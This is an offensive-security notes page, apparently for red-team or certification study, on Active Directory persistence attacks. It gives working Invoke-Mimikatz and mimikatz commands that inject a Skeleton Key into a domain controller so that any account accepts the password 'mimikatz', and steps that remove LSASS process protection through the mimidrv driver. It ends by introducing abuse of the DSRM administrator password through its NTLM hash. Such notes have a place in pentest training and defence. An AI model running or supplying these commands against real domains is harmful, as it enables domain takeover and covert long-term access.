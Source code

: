 ## <span style="color:lightgreen">Methodology/Steps</span>

- [x] 1. Inject the Skeleton key in the DC
- [x] 2. Now we can access any machine with password as `mimikatz`

## <span style="color:lightgreen">Invoke-Mimikatz</span>

### <span style="color:#F1C232">1. Use the below command to inject a skeleton-Key</span>

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton' -ComputerName <computer-name>
```
> Skeleton Key password is : **mimikatz**
{: .prompt-info }

### <span style="color:#F1C232">2. Now we can access any machine with valid username and password as mimikatz</span>

```powershell
Enter-PSSession -Computername <computer-name> -credential dcorp\Administrator
```

## <span style="color:lightgreen">Extra Commands</span>

### <span style="color:#F1C232">LSASS running as a protected process</span>
In case Lsass is running as a protected process, we can still use Skeleton Key but it needs the mimikatz driver (mimidriv.sys) on disk of the target DC

```console
mimikatz # privilege::debug
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # misc::skeleton
mimikatz # !-
```

> The above would be very noisy in logs - Service installation (Kernel mode driver) 
{: .prompt-warning }


# <span style="color:lightblue">Directory Service Restore Mode (DSRM)</span>

* DSRM is Directory Services Restore Mode
* There is a local administrator on every DC called "Administrator" whose password is the DSRM password
* DSRM password (**SafeModePassword**) is required when a server is promoted to Domain Controller and it is rarely changed
* After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC.
